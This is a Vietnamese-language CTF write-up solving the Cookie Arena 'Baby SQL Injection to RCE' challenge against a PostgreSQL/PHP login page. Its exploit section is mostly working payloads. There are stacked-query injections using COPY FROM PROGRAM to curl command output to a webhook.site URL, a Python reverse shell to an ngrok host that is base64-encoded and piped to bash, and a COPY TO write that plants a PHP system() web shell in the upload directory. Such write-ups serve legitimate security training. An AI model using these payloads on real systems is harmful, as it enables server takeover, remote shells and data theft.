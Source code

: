 ```yaml
---
title: "[WRITEUP] Baby SQL Injection to RCE - COOKIE ARENA"
categories:
- CTF Writeup
- Cookie Arena
tags:
- SQLi
date: '2024-07-10 14:30:00'
---
```


## Intro
Link Challenge: [here](https://battle.cookiearena.org/challenges/web/baby-sql-injection-to-rce){:target="\_blank"}

Mô tả: 
```
This is because traditional SQL injection techniques. Could you execute command?

The challenge is running in PostgreSQL and PHP.

Flag File: /flagXXXX.txt
Flag Format: CHH{XXX}
```
## Exploit
Mới đầu vào xuất hiện 1 trang login:

![Login Page](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/1.png)

Source code:
```php
<?php
  include_once('./ignore/design/design.php');
  $design = Design(__FILE__, 'Basic Web');

  include('config.php');
  $message = "";
  
  if ($_SERVER["REQUEST_METHOD"] == "POST") {
      $username = trim($_POST['username']);
      $password = trim($_POST['password']);
  
      // Truy vấn kiểm tra tên người dùng và mật khẩu
      $sql = "SELECT * FROM users WHERE username='$username' AND password='$password'";
      $result = pg_query($conn, $sql) or die(pg_last_error());

      if (pg_num_rows($result) > 0) {
        $message = "Welcome, $username!";
      } else {
        $message = "Invalid username or password!";
      }
  }
?>
<html>
  <head>
    <title>Basic Login</title>
  </head>
  <body>
    <?php if(strlen($message) > 0) { echo $message; } else { ?>
    <div>
        <h2>Login</h2>
        <form action="/index.php" method="post">
          
            <div class="form-group">
                <label for="username">Username:</label>
                <input type="text" class="form-control" id="username" name="username">
            </div>
            <div class="form-group">
                <label for="pwd">Password:</label>
                <input type="password" class="form-control" id="pwd" name="password">
            </div>
            <button type="submit" class="btn btn-primary">Login</button>
        </form>
    </div>
    <?php } ?>

    <div>
      <?php echo $design; ?>  
    </div>    
  </body>
</html>
```

Trước hết, đọc source code ta thấy được câu truy vấn `$sql = "SELECT * FROM users WHERE username='$username' AND password='$password'";`, ngỡ là ta được trở lại những năm 2000 :)). Trigger sqli và nảy sang 1 trang welcome.

![Welcome](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/2.png)

Như cái tiêu đề và mô tả, chúng ta phải khai thác SQL injection to RCE vì flag nằm trong file hệ thống chứ không nằm trong db. 2 ý tưởng nảy trong đầu của tui:
1. Liệu có câu lệnh sql của PostgreSQL nào giúp ta thực thi os command hay không?
2. Liệu có thư mục nào mà ta có quyền ghi file? Từ đó up webshell bằng SQL?

Nhưng, trong câu truy vấn gốc với mệnh đề select thì ta không làm được gì nhiều. Vậy liệu còn cách nào khác giúp ta có thể chạy nguyên vẹn 1 sql command để có thể làm được nhiều thứ hơn? Có một khái niệm cho phép ta làm điều này [Stack Queries](https://cookiearena.org/penetration-testing/stacked-query-trong-sql-injection/){:target="\_blank"}.

![Stack Queries](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/3.png)

Vậy là confirm rằng psql có support Stacked Queries.

### Vector 1: Execute OS command via SQL
Sau một hồi research docs của postgresql, tui tìm được [cái này](https://www.postgresql.org/docs/current/sql-copy.html#:~:text=the%20path%20name.-,PROGRAM,string%2C%20or%20at%20least%20avoid%20including%20any%20user%20input%20in%20it.,-STDIN){:target="\_blank"}.
 
 `COPY FROM PROGRAM` giúp ta thực hiện vector 1 mà tui đưa ra. 

- Bắt đầu với việc tạo 1 table.
```text
';CREATE TABLE shell(output text);-- -
```

![Create Table](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/4.png)

- Sử dụng PROGRAM để thiết lập command. Test payload:
```text
'; COPY shell FROM PROGRAM 'curl https://webhook.site/de60c29f-ebc7-4f64-8851-09f08950387e/res=`id`';-- -
```

![Test exec command](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/5.png)

Sure là payload của ta hoạt động. RCE thoaii

![RCE](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/6.png)

Giải thích một chút payload:
- Đầu tiên, biết server đang chạy python3, nên tui dùng payload reverse shell này:
```
export RHOST="0.tcp.ap.ngrok.io";export RPORT=19890;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

- Tiếp đến, để vận chuyển payload 1 cách mượt mà, tui base64 lại và dùng pipeline để xử lý payload. Full payload nè:
```
'; COPY shell FROM PROGRAM 'echo "ZXhwb3J0IFJIT1NUPSIwLnRjcC5hcC5uZ3Jvay5pbyI7ZXhwb3J0IFJQT1JUPTE5ODkwO3B5dGhvbjMgLWMgJ2ltcG9ydCBzeXMsc29ja2V0LG9zLHB0eTtzPXNvY2tldC5zb2NrZXQoKTtzLmNvbm5lY3QoKG9zLmdldGVudigiUkhPU1QiKSxpbnQob3MuZ2V0ZW52KCJSUE9SVCIpKSkpO1tvcy5kdXAyKHMuZmlsZW5vKCksZmQpIGZvciBmZCBpbiAoMCwxLDIpXTtwdHkuc3Bhd24oInNoIikn" | base64 -d | /bin/bash';-- -
```

### Vector 2: Upload shell via SQL

- Thứ nhất, điều kiện tiên quyết là upload ở đâu đó trong document-root để có thể thực thi file php? 
- Và thư mục đó có quyền ghi cho user postgres hay không?

Thực hiện dirsearch endpoint của website thì phát hiện ra 1 số thứ hay ho:

![dirsearch](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/7.png)

Trang phpinfo cho ta biết được một số thông tin quan trọng như document_root. 

![phpinfo](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/8.png)

Thư mục upload

![upload](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/9.png)


Thư mục upload/ và document_root là 2 keys chính cho giả thiết 2 này. 

Việc còn lại là craft 1 payload để ghi file, cụ thể hơn là file php (để chứng minh thư mục file php có được thực thi hay không).

```
'; CREATE TEMPORARY TABLE temp_results(a VARCHAR(255)); INSERT INTO temp_results (a) VALUES ('<?php phpinfo(); ?>'); COPY temp_results TO '/www/upload/1.php' WITH (FORMAT CSV);-- -
```

![test payload](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/10.png)

Giải thích payload:
- Tạo 1 bảng tạm có 1 column để chèn payload.
- `COPY temp_results TO '/www/upload/1.php' WITH (FORMAT CSV);` câu lệnh giúp xuất toàn bộ content của table `temp_results` chứa payload vào 1 file trong hệ thống với absolute path (nếu cố tình chèn relative path sẽ gây ra lỗi) (đó cũng chứng minh rằng document_root là thông tin cần thiết cho vector này).

Thay payload phpinfo() bằng `<?php system($_GET[cmd]); ?>');` => RCE

![RCE](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/11.png)